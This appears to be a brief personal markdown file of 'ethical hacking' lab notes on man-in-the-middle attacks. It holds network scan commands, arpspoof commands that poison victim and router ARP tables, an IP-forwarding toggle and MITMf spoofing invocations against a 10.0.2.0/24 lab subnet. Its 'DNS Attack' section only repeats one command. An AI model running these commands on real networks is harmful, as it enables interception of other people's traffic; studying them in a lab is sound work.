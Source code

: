 # Ethical Hacking Notes


# Man in the Middle Attack


## Scan related

```console
arp -a
```

Check arp table on Windows


```console
netdiscover -r 10.0.2.0/24
```

Simplified version of nmap 

```console
nmap 10.0.2.0/24
```

Discover all IP and ports in the local network

## ARP Setup target victim PC

```console
arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
```

10.0.2.15 is the target IP, 10.0.2.1 is router IP, this will tell victim PC I'm the router.

```console
arpspoof -i eth0 -t 10.0.2.1 10.0.2.15
```

This will tell router, I'm the victim PC.

## Man in the middle framework

Installation

https://github.com/byt3bl33d3r/MITMf.wiki.git


Remember to turn on IP forward, or victim PC cannot access internet
```console
echo 1 > /proc/sys/net/ipv4/ip_forward
```

Start

```console
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.15
```

# DNS Attack



```console
python mitmf.py -i eth0 --arp --spoof --gateway 10.0.2.1 --target 10.0.2.15
```